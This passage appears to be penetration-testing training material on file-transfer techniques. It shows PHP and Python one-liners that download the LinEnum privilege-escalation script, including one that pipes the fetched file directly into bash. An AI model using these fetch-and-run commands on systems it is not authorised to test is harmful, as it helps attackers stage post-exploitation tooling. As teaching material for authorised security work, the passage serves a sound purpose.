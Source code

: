  ### File_get_contents()
 

 ```
htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
 ```

 #### Fopen()
 

 ```
htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
 ```

If the php-curl module has been installed, this can alternatively be used.

 #### Php-curl
 

 ```
 htb[/htb]$ php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
 ```

It is also possible to retrieve each line as an array and pipe the output to bash.
 
 ```
 htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
 ```


### Python


Python is often present on Linux and can be used to download files when Wget and cURL are not available. Although Python isn’t currently installed by default in Windows, typing Python in a command prompt opens the Windows Store's official distribution with a single-click install. Python is frequently installed on developer and IT computers and is bundled by default with major business financial applications such as Bloomberg (Bloomberg Professional Services).

### Python 2


```
htb[/htb]$ python2
```

#### Code: python

```
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
```
